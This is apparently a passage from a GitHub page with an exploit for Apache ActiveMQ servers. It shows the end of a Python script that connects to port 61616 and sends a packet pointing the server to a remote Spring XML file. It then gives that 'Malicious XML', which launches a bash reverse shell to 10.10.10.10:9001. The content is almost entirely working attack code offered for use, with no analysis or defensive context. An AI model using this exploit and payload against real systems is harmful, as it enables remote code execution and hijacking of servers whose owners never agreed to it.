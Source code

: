 ```
 
    print("[*] Target:", f"{ip}:{port}") 
    print("[*] XML URL:", url) 
    print() 
    print("[*] Sending packet:", payload) 
 
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    conn.connect((ip, int(port))) 
    conn.send(data) 
    conn.close() 
 
def string2hex(s): 
    return s.encode().hex() 
 
def int2hex(i, n): 
    if n == 4: 
        return format(i, '04x') 
    elif n == 8: 
        return format(i, '08x') 
    else: 
        raise ValueError("n must be 4 or 8") 
 
if __name__ == "__main__": 
    parser = argparse.ArgumentParser() 
    parser.add_argument("-i", "--ip", help="ActiveMQ Server IP or Host") 
    parser.add_argument("-p", "--port", default="61616", help="ActiveMQ Server Port") 
    parser.add_argument("-u", "--url", help="Spring XML Url") 
    args = parser.parse_args() 
     
    main(args.ip, args.port, args.url)
```

**Malicious XML:**
```
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
